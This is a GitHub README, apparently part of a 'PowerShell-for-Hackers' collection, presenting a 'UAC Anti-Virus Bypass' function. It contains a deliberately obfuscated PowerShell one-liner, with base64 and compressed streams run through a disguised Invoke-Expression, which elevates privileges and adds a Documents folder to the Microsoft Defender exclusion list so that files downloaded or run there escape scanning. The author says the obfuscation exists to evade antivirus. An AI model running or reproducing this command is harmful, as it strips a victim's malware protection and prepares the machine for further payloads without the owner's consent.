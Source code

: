 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# User-Access-Control Anti-Virus Bypass

## Description

A UAC AV bypass 

## The Function

### [FUNCTION-NAME] 

To avoid the Anti-Virus blocking this I had to heavily obfuscate and encode this command (test in a sand box environment need be)
This command will open a powershell console with admin privledges and create a directory called "safe" in the Document folder 
This directory that is created will be added to the Microsoft Defender Exclusions list which makes it ignored by AntiVirus scans 
Any files downloaded or ran from here will be ignored by the anti virus

```
$Payload = "JABwAGEAdABoAD0AIgAkAEUAbgB2ADoAVQBTAEUAUgBQAFIATwBGAEkATABFAFwARABvAGMAdQBtAGUAbgB0AHMAXABzAGEAZgBlACIAOwBtAGsAZABpAHIAIAAkAHAAYQB0AGgAOwBBAGQAZAAtAE0AcABQAHIAZQBmAGUAcgBlAG4AYwBlACAALQBFAHgAYwBsAHUAcwBpAG8AbgBQAGEAdABoACAAJABwAGEAdABoAA=="
( nEw-obJECt Io.cOMprEssion.dEfLAtEStreAM([iO.MEMoRysTream][coNVerT]::FrOMBasE64sTring( 'hY69CsIwFEZf5RK6ph0ci1MHBZEKQacsoflahfyRRKpvb1MQnOp2h3vOd6r+fNiz4GfEdIcxNV4gDjdQdVFv45Um1kZMpPRyHU/dVQo/5llFyM6olJBk7e0kRaFlH+Dk4K1VTjNqNFWLn5rxn8ImnpDzw01Jds94Q1xpVtSs8KPXy0BALIGtyCpmLgwQiCfarXoNg4zNSPZN2f79rVmRDw=='), [SySTEM.Io.cOmprEsSION.comprEsSiOnmOdE]::DECoMPress )| ForeAch{ nEw-obJECt IO.stReaMReAdEr( $_, [SYSTEm.TEXT.encODINg]::aSciI ) } |ForEaCh { $_.rEAdtoENd() } )|& ( $VeRBosEPreFEreNcE.tosTRING()[1,3]+'x'-joIN'')

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

No payloads are currently using this bypass. Some will be soon.


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
